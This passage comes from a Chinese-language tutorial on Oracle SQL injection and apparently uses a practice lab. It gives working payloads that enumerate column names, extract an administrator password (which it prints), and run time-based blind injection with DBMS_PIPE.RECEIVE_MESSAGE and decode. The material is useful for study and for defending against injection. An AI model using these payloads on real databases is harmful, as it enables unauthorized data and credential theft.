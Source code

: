 ![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_52_83pRx7LD.png)
```sql
-- 接着求解字段的长度,子查询实现limit
select length(column_name) from (select t.column_name ,rownum as no from (select column_name from all_tab_columns where table_name='USERS_YFRUVP')t) where no = 1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_52_31YQLNwE.png)
在得知长度为15的情况下，开始猜解列名
```sql
select column_name from (select t.column_name ,rownum as no from (select column_name from all_tab_columns where table_name='USERS_YFRUVP')t) where no = 1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_53_q9p4wWTC.png)
依次求解，猜解的列名如下：
USERNAME_BNQFMG，PASSWORD_FFFBAY
针对已知的列名，再带入表中求解字段
**获取某表的值**
```sql
-- 在得知用户名为administrator的情况下，使用如下payload可以获取密码，若不知道用户名，且表中
-- 数据不为1，需要使用子查询来实现limit
select PASSWORD_FFFBAY from USERS_YFRUVP where USERNAME_BNQFMG = 'administrator'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_53_ESq27w4f.png)
密码为：`1ta07a6rpakca47n3iui`
类似decode()，instr()函数用法
```sql
-- 该语句表示如果a==b 返回c ，否则返回d
select decode(a,b,c,d) from dual;
-- 该语句表示b字符串存在a 中，返回b在a中存在的位置，否则返回0
select instr(a,b) from dual;
```
如下图所示，看到这里构造expression就懂了吧。。。
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_53_vnu2fmoW.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_54_2mjODMZV.png)
### 时间盲注
#### 常用函数/表达式

- decode() 类似mysql中的if
- case...when...then...else...end
- DBMS_PIPE.RECEIVE_MESSAGE
#### DBMS_PIPE.RECEIVE_MESSAGE
如果无法通过页面差来进行注入，这时就需要使用时间盲注，时间盲注主要通过判断页面返回内容的响应时间差异进行条件判断。
Oracle主要是使用`DBMS_PIPE.RECEIVE_MESSAGE('**pipename**',timeout)`函数，该函数从指定管道获取消息，**pipename**为varchar(128)的字符串，用以指定管道名称，在这里我们输入任意值即可。
**timeout**为integer的可选输入参数，用来指定等待时间。
```sql
select dbms_pipe.receive_message('o', 10) from dual;
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_54_H7VFkxiY.png)
配合使用**decode**函数，来构成条件语句，实现时间盲注
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_54_rJP7owVA.png)
decode函数可以当成MYSQL中的IF函数使用，相应的表达式可以参照布尔盲注
```sql
select decode(substr((select user from dual),1,1),'S',dbms_pipe.receive_message('o', 5),2) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_55_7Jrp4uhg.png)
也可以使用case...when.. then...else...end 来代替decode
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_55_uaSgCzqd.png)